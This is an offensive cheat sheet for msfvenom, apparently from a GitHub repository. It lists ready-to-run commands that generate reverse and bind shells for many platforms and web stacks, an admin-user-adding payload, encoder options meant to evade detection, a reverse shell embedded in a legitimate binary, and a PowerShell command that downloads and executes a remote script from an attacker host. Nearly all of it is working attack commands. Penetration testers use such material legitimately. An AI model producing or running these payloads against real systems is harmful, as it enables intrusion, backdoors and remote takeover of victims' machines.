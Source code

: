 # MSFVenom

## Usage
- msfvenom -p \<PAYLOAD\> -e \<ENCODER\> -f \<FORMAT\> -i \<ENCODE COUNT\> LHOST=\<IP\>


## Commands
### Payloads
- msfvenom -l payloads 

### Encoders
- msfvenom -l encoders 


### Options
#### Banned characters
-b "\x00\x0a\x0d" 

#### Format
-f c 

#### Encoders
-e x86/shikata_ga_nai -i 5 

#### Inline options
- EXITFUNC=thread
- PrependSetuid=True #Use this to create a shellcode that will execute something with SUID


## Shells
### Reverse 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe

### Bind
- msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe


## Payloads
### Add user
- msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe

### Run commands
- msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
- msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe

### Embedded 
- msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe

### Platforms
- msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
- msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
- msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
- msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
- msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
- msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
- msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
- msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
